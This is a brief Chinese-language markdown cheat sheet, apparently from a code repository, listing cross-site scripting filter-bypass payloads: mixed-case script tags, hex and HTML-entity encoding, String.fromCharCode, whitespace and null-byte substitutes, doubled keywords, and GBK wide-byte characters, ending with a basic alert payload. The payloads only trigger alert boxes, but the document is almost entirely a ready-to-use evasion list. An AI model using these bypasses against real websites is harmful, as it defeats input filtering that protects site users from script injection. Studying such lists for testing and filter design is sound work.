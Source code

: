 # XSS

## 绕过检测的各种姿势

- **大小写绕过**

```html
<ScRIpT>alert('123')</sCRIpT>
```

- **编码绕过**

```html
1.十六进制编码
2.jsfuck编码
3.url编码
4.unicode编码
<0x736372697074>alert('123')</0x736372697074>
<img src="1" onerror="alert&#x28;1&#x29;">
```

- **magic_quotes_gpc**

```html
<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)</script>
```

- **符号绕过**

```
%0a         替换空格
%0d         替换空格
/**/        替换空格
%00         截断
``          替换括号
```

- **双字符绕过**

```html
<img ononerrorerror="123">
<script>alalertert(123)</script>
```

- **宽字节绕过**

```
gbxxxx系列的编码，尝试一下宽字节  %c0，%bf，%5c，%df
```

## XSS Payload

```
<script>alert(1)</script>  
```

